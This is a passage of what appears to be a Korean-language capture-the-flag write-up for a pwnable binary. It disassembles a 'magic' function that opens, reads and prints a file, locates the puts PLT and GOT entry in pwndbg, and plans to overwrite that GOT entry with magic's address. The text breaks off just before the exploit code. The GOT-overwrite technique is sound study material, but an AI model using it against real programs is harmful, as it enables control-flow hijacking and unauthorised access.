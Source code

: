 그리고 system을 출력해주는 magic함수가 있는 것을 알 수 있습니다.  
gdb를 이용해서 보면 magic함수의 주소는 0x400c7b입니다.  

```
pwndbg> disass magic
Dump of assembler code for function magic:
   0x0000000000400c7b <+0>:	push   rbp
   0x0000000000400c7c <+1>:	mov    rbp,rsp
   0x0000000000400c7f <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400c83 <+8>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000400c8c <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400c90 <+21>:	xor    eax,eax
   0x0000000000400c92 <+23>:	mov    esi,0x0
   0x0000000000400c97 <+28>:	mov    edi,0x4011c9
   0x0000000000400c9c <+33>:	mov    eax,0x0
   0x0000000000400ca1 <+38>:	call   0x400850 <open@plt>
   0x0000000000400ca6 <+43>:	mov    DWORD PTR [rbp-0x74],eax
   0x0000000000400ca9 <+46>:	lea    rcx,[rbp-0x70]
   0x0000000000400cad <+50>:	mov    eax,DWORD PTR [rbp-0x74]
   0x0000000000400cb0 <+53>:	mov    edx,0x64
   0x0000000000400cb5 <+58>:	mov    rsi,rcx
   0x0000000000400cb8 <+61>:	mov    edi,eax
   0x0000000000400cba <+63>:	call   0x400800 <read@plt>
   0x0000000000400cbf <+68>:	mov    eax,DWORD PTR [rbp-0x74]
   0x0000000000400cc2 <+71>:	mov    edi,eax
   0x0000000000400cc4 <+73>:	call   0x4007f0 <close@plt>
   0x0000000000400cc9 <+78>:	lea    rax,[rbp-0x70]
   0x0000000000400ccd <+82>:	mov    rsi,rax
   0x0000000000400cd0 <+85>:	mov    edi,0x4011e5
   0x0000000000400cd5 <+90>:	mov    eax,0x0
   0x0000000000400cda <+95>:	call   0x4007c0 <printf@plt>
   0x0000000000400cdf <+100>:	mov    edi,0x0
   0x0000000000400ce4 <+105>:	call   0x400880 <exit@plt>
End of assembler dump.
```  

puts함수의 인자로 magic함수를 호출해 줄 수 있는데, 이를 위해서는 puts함수의 got를 알아야합니다.  
deposit함수에서 사용되는 puts함수를 gdb로 보면 puts함수의 plt를 알 수 있습니다.  

```
0x0000000000400b7f <+377>:	call   0x4007a0 <puts@plt>
```

그리고 plt 주소를 다음과 같이 이용하여 got를 알 수 있습니다.  

```
pwndbg> x/3i 0x4007a0
   0x4007a0 <puts@plt>:	jmp    QWORD PTR [rip+0x20187a]        # 0x602020
   0x4007a6 <puts@plt+6>:	push   0x1
   0x4007ab <puts@plt+11>:	jmp    0x400780
```

puts함수의 got가 0x602020인 것을 알았으니, 이 주소에 magic함수의 주소값이 들어가도록 조정해주면됩니다.  

따라서 exploit은 다음과 같습니다.  

